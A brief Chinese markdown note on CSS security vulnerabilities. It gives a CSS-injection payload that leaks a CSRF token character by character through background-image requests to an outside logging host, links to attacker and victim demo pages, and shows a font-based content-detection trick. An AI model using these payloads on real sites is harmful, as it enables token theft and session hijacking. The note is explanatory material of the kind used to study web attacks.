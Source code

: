 ```yaml
---
title: CSS安全漏洞
tags: 
- CSS
---
```


# CSS安全漏洞
## 伪元素

## background-image属性
举例如下，
  - 原理
    - 1、向要攻击的站点的url附上一段查询字符串，如`injection=#sensitiveForm input[value^='${csrfToken}a'] {background-image:url(https://security.love/log.php/${csrfToken}a);}`
    - 2、当页面存在满足以上CSS选择器时，便会触发`background-image`地址链接，推断出token的第一个字符 
    - 3、重复步骤1、2，直到服务器再无接收到响应，可认为已获取到token的所有字符

  - 相关链接
    - [攻击者地址](https://security.love/cssInjection/attacker.html)
    - [受害者地址](https://security.love/cssInjection/victim.html)

## 自定义字体
  ```css
  @font-face {
    font-family: blah;
    src: url('/page-contains-q') format('woff');
    unicode-range: U+85;
  }
  html {
    font-family: blah, sans-serif;
  }
  ```

> 这些漏洞存在安全隐患，当然也可以往好的方面利用，比如做网页追踪、分析

